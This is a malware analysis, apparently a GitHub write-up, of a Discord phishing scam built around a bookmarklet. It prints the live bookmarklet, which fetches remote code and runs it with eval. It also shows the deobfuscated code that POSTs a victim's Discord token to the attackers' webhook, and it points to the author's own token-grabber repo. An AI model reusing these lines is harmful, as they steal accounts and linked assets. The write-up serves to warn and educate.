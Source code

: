 ## 📒 Introduction

**Scam Website:** https://projectgodjira.com/

I am neutral when it comes to NFTs. Recently, someone from a NFT community notfied me about this new scam involving bookmarklets, and a phishing website to steal Discord accounts and any linked NFTs.

**How the underlying scam works:**
1. The victim is DMed a link via Discord. The website in this DM is `https://projectgodjira.com/`. (The scam website)
2. When visitng this website, you are prompted to drag and drop a bookmarklet into your bookmark tray.
3. Upon clicking the bookmarklet, you are prompted to enter a "verification key" to gain access to their Discord server. 
4. As soon as that dialog is submitted, your Discord token is sent through a webhook to their Discord server.

**Quick Notes:**
- It appears they have linked a legit Twitter NFT service on their website to trick users: https://twitter.com/PGodjira.
- After using a BetterDiscord plugin to find hidden channels, there was a channel in their server named #mod-logs.
- The functionality of this bookmarklet is similiar to my repo: https://github.com/GalaxzyDev/MiniTokenMonster.

## 👀 First Glance
1. This is the bookmarklet hosted on the scam website at first glance:
```js
javascript:window.prompt('Enter your whitelist key:');eval(/*xmarksthespot.*/atob(/*Whitelist.*/'ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
2. The window.prompt() event is useless, lets get rid of this; as well as the comments. 

```js
javascript:eval(atob('ZmV0Y2goImh0dHBzOi8vY2RuLmRpc2NvcmRhcHAuY29tL2F0dGFjaG1lbnRzLzkzOTM0MTk1NzcyMzk3OTc3Ni85MzkzNDM2MzM3MTc1NTkzMjYvbWVzc2FnZS50eHQiKS50aGVuKHJlc3BvbnNlID0+IHJlc3BvbnNlLnRleHQoKSkudGhlbihzdWNjZXNzID0+IGV2YWwoc3VjY2Vzcykp'))
```
3. This is obviously code in base64, being decoded by the JavaScript `atob()` function, then ran. Lets go ahead and decode this.
```js
javascript:eval("fetch('https://cdn.discordapp.com/attachments/939341957723979776/939343633717559326/message.txt').then(response => response.text()).then(success => eval(success))")
```

4. We can now see a Discord CDN attachment, where they have hidden the rest of their "malware."
   - This code is most likely obfuscated with https://obfuscator.io/.

## 🚧 Going Deeper
1. I first used https://lelinhtinh.github.io/de4js/ to clean things up and format the obfuscated code.
2. I searched for strings such as `method`, `body`, and `fetch()` and came across the code below.
  ```js
_0x188590[_0x4444dd('0x39d', '0x344', '0x378', 'XRyX', 0x36d) + 'nt'] = _0x24e573(0xd9, '0qqU', '0xc6', 0xf5, 0x96) + _0x24e573(0x9, '*sVU', 0x105, -'0x35', 0x121) + _0x5d3af8(-0x72, -0x24b, '0qqU', -0x167, -0x10f) + ': ' + _0x15825c, fetch(_0x4444dd(0x393, 0x3d0, '0x32e', 'Azem', '0x2be') + _0x5735dc(0x15, 0xa9, 'gvqV', -'0x3b', 0x70) + _0x4444dd(0x38a, 0x46f, 0x3ec, 'Azem', '0x428') + _0x5d3af8(-0x11f, -'0x104', '*sVU', -0x2e, -'0x8f') + _0x4444dd(0x58f, 0x553, 0x491, '#T)l', 0x59c) + _0x24e573('0x1c', 'oe#2', 0x91, -0x21, -0x19) + _0x4444dd(0x3d1, 0x4a0, 0x45f, 'w2LG', 0x3f7) + _0x4444dd('0x418', 0x4df, 0x4d1, ')dR0', 0x3e7) + _0x24e573('0x6b', '0qqU', 0x83, 0x8e, -0x75) + _0x24e573(0xb8, 'CttX', 0x116, -'0x24', 0x90) + _0x5735dc(0x14b, 0xdd, 'Yqd8', '0x17c', '0xd2') + _0x1564d3(-0x167, 'Qa)H', -0xaf, -'0x140', 0x4e) + _0x24e573(-0x34, '7R#O', '0xe', 0x64, -'0x6d') + _0x4444dd('0x3c7', '0x27e', '0x347', '*AOY', 0x29e) + _0x5d3af8(-0x1cf, -0x6c, 'l2J&', -'0x105', -0x189) + _0x24e573(-0xfc, 'w2LG', -'0x17e', -'0x1ed', -0x7c) + _0x24e573('0x3a', '4]PG', 0x42, 0x79, -0x93) + _0x5735dc(0x71, 0x1ce, '*sVU', 0x1c9, '0x146') + _0x1564d3(-'0x1c3', 'w2LG', -'0x2ae', -0x31e, -'0x27e') + _0x4444dd(0x3b8, 0x44a, '0x3c9', 'Ykiw', '0x2f4') + _0x5d3af8(-0x1a8, -'0x1d', 'CttX', -'0xce', -'0x1c7') + _0x5d3af8(-0x22, -'0x1ce', 'CttX', -'0xe7', -'0x122') + _0x24e573(-'0x8e', 'Yqd8', -0x116, -0xa7, -'0x175') + _0x24e573(-0x96, 'wQ7E', -'0x170', -0x37, 0x60), {
    'method': _0x24e573(-0x12, '#T)l', 0x41, -'0x19', 0xf7),
    'headers': _0x451189,
    'body': JSON[_0x5735dc(0x1e1, -0x39, 'Yqd8', -'0x2', 0xde) + _0x5735dc(0x118, 0xb, '#qiQ', 0x1c6, '0xfd')](_0x188590)
}), alert(_0x1564d3(-0x61, 'Ykiw', -0x161, -0x97, -0x187) + _0x5735dc('0x285', 0xdf, 'PqTf', 0x286, '0x1c6') + _0x5735dc('0x17c', '0xf7', '#qwt', '0x140', 0xf2) + _0x5d3af8(-0x9, -'0x88', 'Oiv%', -'0xc1', -0x85) + _0x5735dc(0xea, '0x233', 'PYo$', 0x118, 0x1eb));
   ```
3. After a few `alert()` and `JSON.stringify()` functions later, the code above can be deobfuscated to:
 ```js
fetch("https://discord.com/api/webhooks/939322818280185906/ZkaQPqSP-vOrUdIObzR0QsU65jYkcoU6s7YEFjQphrhE_IOOHkDD2B-ip8hOFC4x9Tpa", {
  'method': 'POST',
  'headers': {'Content-Type': 'application/json'},
  'body': JSON.stringify({"username":"Logger","content":"@everyone Token: <VICTIMS DISCORD TOKEN>"})
}), alert("You have been whitelisted successfully!");
 ```

4. This makes it obvious that this is a scam, not to mention, it being a bookmarklet. 
   - The victims token will be sent over the webhook to their Discord's `#mod-logs` hidden channel.

## ⛔ Heads up!
People have fallen for this, due to this tactic not being widely seen. I hate to see people loose time and money due to this.
- If you are prompted to add a bookmarklet, proceed with caution! Bookmarklets can become way more complex than this scam.
- Do not leave sensitive information lying around in your Discord account! There are lots of grabbers nowdays, lmfao.
- Dont believe Discord DM advertisements, they are always false.
